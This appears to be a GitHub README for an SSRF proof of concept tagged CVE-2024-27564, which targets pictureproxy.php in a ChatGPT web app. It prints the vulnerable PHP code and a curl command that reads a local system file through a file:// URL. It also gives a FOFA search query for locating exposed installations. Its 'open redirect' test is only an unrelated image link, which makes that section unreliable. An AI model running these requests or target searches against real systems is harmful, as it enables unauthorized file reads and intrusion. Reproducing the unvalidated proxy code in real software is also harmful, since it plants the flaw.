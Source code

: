     # SSRF-Exploit-CVE-2024-27564


# Project Title

This project demonstrates a Server-Side Request Forgery (SSRF) vulnerability in the `pictureproxy.php` file.

## Description

A vulnerability in `pictureproxy.php` allows remote attackers to perform arbitrary requests by injecting URLs into the `url` parameter. This SSRF vulnerability can be exploited without authentication, making it particularly dangerous. 

The vulnerable code is in the `pictureproxy.php` file. The issue occurs because the function does not properly validate the `url` parameter. The `$_GET['url']` variable is passed to the `file_get_contents()` function, which fetches content from the specified URL. This can lead to SSRF.

## Proof of Concept

Here is a simple proof of concept that shows how the vulnerability can be exploited:

```php
<?php
if (isset($_GET['url'])) {
    $image = file_get_contents($_GET['url']);
    header("Content-type: image/jpeg");
    echo $image;
} else {
    echo "Invalid request";
}
```

To test the vulnerability, you can use the following curl command:

```bash
curl -i -s -k http://127.0.0.1/pictureproxy.php?url=file:///etc/password
```

### Tested with Open Redirect

A test using an open redirect vulnerability:

```bash
https://64.media.tumblr.com/f07b73b374dc2ff6d5e4dbf39d2a6467/tumblr_nvani31DCm1u5url1o1_1280.jpg
```

![Banner](poc.png)

## Tools

- **FOFA**: A search engine for Internet devices and vulnerabilities. Use the following command to search for relevant results:
```bash
"title="ChatGPT个人专用版""
```

## Conclusion

This project highlights the importance of properly validating user inputs to avoid SSRF vulnerabilities. Always ensure that parameters like URLs are thoroughly checked before being processed.
